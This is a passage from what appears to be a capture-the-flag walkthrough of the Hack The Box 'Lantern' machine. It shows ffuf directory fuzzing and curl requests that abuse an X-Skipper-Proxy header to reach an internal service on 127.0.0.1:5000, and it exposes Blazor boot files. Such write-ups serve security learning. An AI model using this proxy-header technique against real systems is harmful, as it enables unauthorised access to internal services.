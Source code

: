 And when looking the whole response :

![alt text](./framework.png)

The site seems to use the Blazor Framework. This confirm what we found on port 3000. Let's fuze this :

```bash
ffuf -c -w /opt/seclists/Discovery/Web-Content/common.txt -u "http://$TARGET/FUZZ" -H "X-Skipper-Proxy:http://127.0.0.1:5000/"  -recursion  -fc 302 -fw 389

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.29/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/common.txt
 :: Header           : X-Skipper-Proxy: http://127.0.0.1:5000/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 389
 :: Filter           : Response status: 302
________________________________________________

_framework/blazor.boot.json [Status: 200, Size: 20709, Words: 1549, Lines: 231, Duration: 103ms]
_framework/blazor.webassembly.js [Status: 200, Size: 60904, Words: 1770, Lines: 1, Duration: 91ms]
:: Progress: [4727/4727] :: Job [1/1] :: 443 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Great, let's have a look at this json file.

```bash
curl -H 'Host: lantern.htb' -H 'X-Skipper-Proxy: http://127.0.0.1:5000/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -X GET 'http://lantern.htb/_framework/blazor.boot.json'

{
  "cacheBootResources": true,
  "config": [ ],
  "debugBuild": true,
  "entryAssembly": "InternaLantern",
  "icuDataMode": 0,
  "linkerEnabled": false,
  "resources": {
    "assembly": {
      "Microsoft.AspNetCore.Authorization.dll": "sha256-hGbT4jDhpi63093bjGt+4XVJ3Z9t1FVbmgNmYYmpiNY=",
        [...] # remove all the usless lines
      "System.Private.CoreLib.dll": "sha256-6rKu8tPdUGsvbSpesoNMVzbx7bNqPRMPV34eI7vSYaQ=",
      "InternaLantern.dll": "sha256-pblWkC\/PhCCSxn1VOi3fajA0xS3mX\/\/RC0XvAE\/n5cI="
    },
    "extensions": null,
    "lazyAssembly": null,
    "libraryInitializers": null,
```